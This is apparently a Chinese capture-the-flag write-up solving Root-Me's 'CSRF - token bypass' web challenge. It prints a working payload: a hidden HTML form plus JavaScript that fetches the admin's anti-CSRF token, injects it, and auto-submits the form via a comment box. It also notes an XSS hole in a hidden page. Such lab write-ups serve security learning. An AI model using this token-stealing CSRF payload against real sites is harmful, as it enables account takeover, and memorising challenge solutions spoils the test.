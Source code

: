 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[CSRF - token bypass](https://www.root-me.org/en/Challenges/Web-Client/HTML-disabled-buttons)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2933/)]

------

这题与【[Web-Client : CSRF - 0 protection](http://exp-blog.com/2019/01/13/pid-2927/)】是一样的，只是多了一个 token 校验。

切到 Profile 选项卡，打开浏览器开发者工具，切到 Elements ，可以看到激活表单多了一个实时刷新的 `token`，而且在本地找不到关于这个 `token` 的生成代码，因此可以推断这个 `token` 是与登录账号绑定、且由 web 服务器生成的。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B12%5D%20%5B45P%5D%20CSRF%20-%20token%20bypass/imgs/01.png)

于是我们的目的就是需要在原本利用 robot-admin 的 Cookie 的基础上，再同时利用其 `token` 。

由此构造 payloads 如下（此 payloads 与【[Web-Client : CSRF - 0 protection](http://exp-blog.com/2019/01/13/pid-2927/)】大致相同，只是多了一个步骤，就是让 robot-admin 先访问 Profile 选项卡获取其 `token`，加到 form 表单后再提交）：

```javascript
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="exp" />  <!-- 激活账号，根据实际修改  -->
    <input type="hidden" name="status" value="on" />  <!-- 激活动作 -->
    <input id="admin-token" type="hidden" name="token" value="" />  <!-- 网站用于防止 CSRF 的 token，需绕过 -->
</form>
<script>

	// 使用 robot-admin 的身份获取 robot-admin 的 token，用于绕过 CSRF 校验
	var request = new XMLHttpRequest();
	request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);
	request.send(null);	
	var respone = request.responseText;
	var groups = respone.match("token\" value=\"(.*?)\"");
	var token = groups[1];
	
	document.getElementById("admin-token").value = token;	// 置换 robot-admin 的 token
	document.csrf.submit();
</script>
```

将 payloads 其拷贝到 Contact 选项卡的 Comment 输入框提交。

多刷新几次 Private 选项卡，等待 robot-admin 触发 payloads，最终得到 flag，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B12%5D%20%5B45P%5D%20CSRF%20-%20token%20bypass/imgs/02.png)

> 注：查看页面源码发现有一个隐藏的选项卡 Search 被注释了 `<!--| <a href="?action=search">Search</a> -->`，打开该选项卡，里面有一个 XSS 漏洞，但是暂时没发现这个漏洞对于本题有什么用（可能只是用来方便我们调试，但应该没那么好心，应该是用来误导的）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B12%5D%20%5B45P%5D%20CSRF%20-%20token%20bypass/imgs/03.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
